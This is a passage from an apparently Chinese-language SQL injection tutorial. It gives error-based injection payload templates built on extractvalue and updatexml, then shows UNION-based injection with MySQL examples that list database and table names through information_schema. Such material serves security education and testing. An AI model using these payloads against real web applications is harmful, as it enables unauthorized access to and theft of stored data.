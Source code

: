 作用：改变文档中符合条件的节点的值

现在就很清楚了，我们只需要不满足XPath_string(Xpath格式)就可以了，但是由于这个方法只能爆出32位，所以可以结合mid来使用  
公式1：**username=admin' and (extractvalue(1, concat(0x7e,(你想获取的数据的sql语句)))) and '1'='1**  
公式2：**username=admin' and (updatexml(1, concat(0x7e,(你想获取的数据的sql语句)),1)) and '1'='1**

 基于错误回显的注入，总结起来就一句话，通过sql语句的矛盾性来使数据被回显到页面上，但有时候局限于回显只能回显一条，导致基于错误的注入偷数据的效率并没有那么高，但相对于布尔注入已经提高了一个档次。

## union query injection

要了解union query injection，首先得了解union查询，union用于合并两个或更多个select的结果集。比如说

    SELECT username, password FROM account;

结果是

`admin 123456`

    SELECT id, title FROM article

的结果是

`1 Hello, World`

    SELECT username, password FROM account
    UNION 
    SELECT id, title FROM article

的结果就是

`admin 123456`

`1 Hello, World`

比起多重嵌套的boolean注入，union注入相对轻松。因为，union注入可以直接返回信息而不是布尔值。**前面的介绍看出把union会把结果拼拼到一起，所有要让union前面的查询返回一个空值，一般采用类似于id=-1的方式。**

1)

```
mysql> select name from students where id = -1 union select schema_name from information_schema.schemata;   //数据库名  
+--------------------+
| name               |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| rumRaisin          |
| t3st               |
| test               |
+--------------------+
6 rows in set (0.00 sec)
```

2)

```
mysql> select name from students where id = -1 union select table_name from information_schema.tables where table_schema='t3st';    //表名
+----------+
| name     |
+----------+
| master   |
| students |
+----------+
2   rows in set (0.00 sec)
```
